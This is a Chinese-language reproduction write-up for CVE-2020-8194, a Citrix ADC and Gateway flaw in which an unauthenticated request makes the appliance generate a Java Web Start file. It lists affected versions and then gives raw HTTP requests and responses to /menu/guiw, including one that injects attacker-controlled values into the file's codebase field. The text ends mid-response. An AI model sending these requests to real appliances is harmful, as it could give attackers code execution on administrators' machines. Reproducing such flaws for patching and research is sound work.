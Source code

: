 （CVE-2020-8194）Citrix 未授权访问导致的任意代码执行漏洞
========================================================

一、漏洞简介
------------

Citrix ADC和Citrix NetScaler
Gateway存在一个代码注入漏洞。未经身份验证的远程攻击者可以利用它来创建恶意文件，如果该恶意文件由管理网络上的受害者执行，则可以允许攻击者在该用户的上下文中执行任意代码。

二、漏洞影响
------------

Citrix ADC and Citrix Gateway: \< 13.0-58.30

Citrix ADC and NetScaler Gateway: \< 12.1-57.18

Citrix ADC and NetScaler Gateway: \< 12.0-63.21

Citrix ADC and NetScaler Gateway: \< 11.1-64.14 

NetScaler ADC and NetScaler Gateway: \< 10.5-70.18

Citrix SD-WAN WANOP: \< 11.1.1a

Citrix SD-WAN WANOP: \< 11.0.3d

Citrix SD-WAN WANOP: \< 10.2.7

Citrix Gateway Plug-in for Linux: \<  1.0.0.137

三、复现过程
------------

> 通过URL来生成Java Web Start文件，此URL不需要身份验证：

    GET /menu/guiw?nsbrand=1&protocol=2&id=3&nsvpx=4 HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Cookie: startupapp=st
    Upgrade-Insecure-Requests: 1

此时Citrix会为用户返回一个生成的文件，且该文件会被允许连接到Citrix设备之中

    HTTP/1.1 200 OK
    Date: Tue, 21 Jan 2020 20:32:44 GMT
    Server: Apache
    X-Frame-Options: SAMEORIGIN
    Cache-Control: max-age=10
    X-XSS-Protection: 1; mode=block
    Content-Length: 2320
    Connection: close
    Content-Type: application/x-java-jnlp-file

    <jnlp codebase="2://citrix.local" href="/menu/guiw?nsbrand=1&protocol=2&id=3&nsvpx=4">

    <information>
    <title>GUI citrix.local</title>
    <vendor>Citrix Systems, Inc.</vendor>
    <homepage href="help/im/help.htm"/>
    <description>Configuration Utility - Web Start Client</description>
    <icon href="admin_ui/common/images/guiicon.gif"/>
    <shortcut online="true">
    <desktop/>
    </shortcut>
    </information>

    <security>
    <all-permissions/>
    </security>

    <resources>
    <j2se version="1.6+" initial-heap-size="256M" max-heap-size="256M" />
    <jar href="/admin_ui/php/application/views/applets/gui.jar"/>
    <jar href="/admin_ui/php/application/views/applets/gui_images.jar"/>
    <jar href="/admin_ui/php/application/views/applets/gui_view1.jar"/>
    <jar href="/admin_ui/php/application/views/applets/gui_view2.jar"/>
    <jar href="/admin_ui/php/application/views/applets/gui_view3.jar"/>
    <jar href="/admin_ui/php/application/views/applets/gui_view4.jar"/>
    <jar href="/admin_ui/php/application/views/applets/gui_view5.jar"/>
    <jar href="/admin_ui/php/application/views/applets/gui_view6.jar"/>
    <jar href="/admin_ui/php/application/views/applets/gui_view7.jar"/>
    <jar href="/admin_ui/php/application/views/applets/guicommon.jar"/>
    <jar href="/admin_ui/php/application/views/applets/ns.jar"/>
    <jar href="/admin_ui/php/application/views/applets/jnlp.jar"/>
    <jar href="/admin_ui/php/application/views/applets/sinetfactory.jar"/>
    <jar href="/admin_ui/php/application/views/applets/sslava.jar"/>
    <jar href="/admin_ui/php/application/views/applets/pixl.jar"/>
    <jar href="/admin_ui/php/application/views/applets/looks.jar"/>
    <jar href="/admin_ui/php/application/views/applets/l2fprod-common-tasks.jar"/>
    <jar href="/admin_ui/php/application/views/applets/commons-codec.jar"/>
    <jar href="/admin_ui/php/application/views/applets/java40.jar"/>
    <jar href="/admin_ui/php/application/views/applets/prefuse.jar"/>
    <jar href="/admin_ui/php/application/views/applets/gson.jar"/>
    </resources>

    <application-desc main-class="ns.im.Gui">
    <argument>-D</argument>
    <argument>0</argument>
    <argument>-WS</argument>
    <argument>0</argument>
    <argument>-codebase</argument>
    <argument>2://citrix.local</argument>
    <argument>-ns4</argument>
    <argument>1</argument>
    <argument>-ns10</argument><argument>4</argument></application-desc>
    </jnlp>

如上所示，用户输入的代码，会直接反馈在输出中，那我们就可以尝试一下执行恶意代码

    GET /menu/guiw?nsbrand=HENKA&protocol=wiki.0-sec.org">&id=HENKC&nsvpx=phpinfo HTTP/1.1
    Host: www.0-sec.org

返回值

    HTTP/1.1 200 OK
    Date: Sun, 26 Jan 2020 12:52:01 GMT
    Server: Apache
    X-Frame-Options: SAMEORIGIN
    Cache-Control: max-age=10
    X-XSS-Protection: 1; mode=block
    Content-Length: 2398
    Connection: close
    Content-Type: application/x-java-jnlp-file

    <jnlp codebase="wiki.0-sec.org">://www.0-sec.org" href="/menu/guiw?nsbrand=HENKA&protocol=wiki.0-sec.org">&id=HENKC&nsvpx=phpinfo">

    <information>
    <title>GUI citrix.local</title>
    <vendor>Citrix Systems, Inc.</vendor>

